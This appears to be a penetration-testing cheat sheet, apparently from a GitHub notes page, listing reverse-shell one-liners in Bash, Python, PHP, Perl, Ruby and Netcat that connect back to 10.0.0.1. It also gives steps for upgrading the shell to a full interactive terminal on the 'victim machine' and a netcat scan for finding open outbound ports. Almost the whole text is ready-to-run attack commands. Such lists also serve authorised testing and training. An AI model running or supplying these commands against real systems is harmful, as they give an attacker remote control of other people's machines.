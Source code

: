 ## Reverse shell

**1. Reverse shell list**  

	Bash  
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

	Python  
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

	Php  
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

	Perl  
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

	Ruby  
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

	Netcat  
	nc -e /bin/sh 10.0.0.1 1234
	(Netcat without -e flag)
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f 

**== Upgrading half shells to fully interactive TTYs without closing nc session. ==**

python -c 'import pty; pty.spawn("/bin/bash")'

background remote shell with Ctrl+Z    // on victim machine

stty -a | grep rows    //on attacking machine  
speed 38400 baud; rows 55; columns 205; line = 0;  
echo $TERM     // on attacking machine  
stty raw echo   // attacking machine  
fg             // attacking machine  
reset          // attacking machine  
export SHELL=BASH          //on victim machine   
export TERM=xterm-256color //on victim machine  
stty rows 55 columns 205   //on victim machine. See stty -a  

**TBC. Check which port is allowed for reverse shell** 

	sometime certain out going traffic is blocked by your victim   
	nc -nvv -w 1 -z "Your IP Address" 1-100  
	open Wireshark  
